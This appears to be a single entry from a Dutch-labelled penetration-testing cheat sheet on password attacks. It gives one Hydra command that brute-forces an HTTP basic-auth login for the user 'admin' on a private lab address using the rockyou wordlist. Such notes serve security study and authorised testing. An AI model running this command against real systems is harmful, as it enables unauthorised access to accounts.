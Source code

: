 # 16.Password Attacks — Entry 5

## Categorie

HTTP alert login

## Commando

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.102.201 http-get /protected
```

## Omschrijving

```
Using Hydra to crack a pop-up http login screen
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

